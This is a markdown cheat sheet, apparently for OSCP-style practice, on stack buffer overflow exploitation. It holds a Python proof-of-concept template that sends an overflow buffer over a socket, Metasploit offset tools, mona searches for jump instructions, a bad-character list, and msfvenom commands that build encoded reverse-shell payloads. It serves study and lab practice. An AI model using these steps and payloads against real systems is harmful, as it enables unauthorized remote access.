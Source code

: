 # Buffer Overflow

## poc.py

``` python
#!/usr/bin/python

import sys, socket

if len(sys.argv) < 2:
    print "\nUsage: " + sys.argv[0] + " <ip>\n"
    sys.exit()

junk = "\x41" * # number

eip = "" # jmp esp

nop = "\x90" * 8

shell = ()

buffer = junk + eip + nop + shell

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # IPv4 (AF_INET), TCP (SOCK_STREAM)
s.connect((sys.argv[1], 9001))
s.send(buffer)
s.recv(1024)
s.close()
```

## Offset

Create pattern for juck value

``` bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <number>
```

Identify the offset

``` bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <value>
```

## Go to esp

`Install mona`: [https://github.com/corelan/mona](https://github.com/corelan/mona)

``` bash
!mona modules
```

`assembly to hex converter`: [https://defuse.ca/online-x86-assembler.htm](https://defuse.ca/online-x86-assembler.htm)

### JMP ESP

``` bash
!mona find -s "\xff\xe4" -m "app.dll"
```

### CALL ESP

``` bash
!mona find -s "\xff\xd4" -m "app.dll"
```

### PUSH ESP --> RET

``` bash
!mona find -s "\x54\xc3" -m "app.dll"
```

[https://www.rcesecurity.com/2011/12/buffer-overflow-exploitation-jump-to-shellcode-via-push-espret](https://www.rcesecurity.com/2011/12/buffer-overflow-exploitation-jump-to-shellcode-via-push-espret)

## Locate payload

``` python
nop = "\x90" * 4
```

## Badchars

``` bash
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

## Exploit Payload

``` bash
msfvenom -p windows/shell_reverse_tcp lhost=<ip> lport=443 EXITFUNC=thread -f c -b "\x00" -e x86/shikata_ga_nai
```

``` bash
msfvenom -p linux/x86/shell_reverse_tcp lhost=<ip> lport=443 EXITFUNC=thread -f c -b "\x00" -e x86/shikata_ga_nai
```

## More practice

[https://blog.hackerenv.com/buffer-overflow-tutorial-step-by-step-with-immunity-debugger-3](https://blog.hackerenv.com/buffer-overflow-tutorial-step-by-step-with-immunity-debugger-3)

[https://github.com/V1n1v131r4/OSCP-Buffer-Overflow](https://github.com/V1n1v131r4/OSCP-Buffer-Overflow)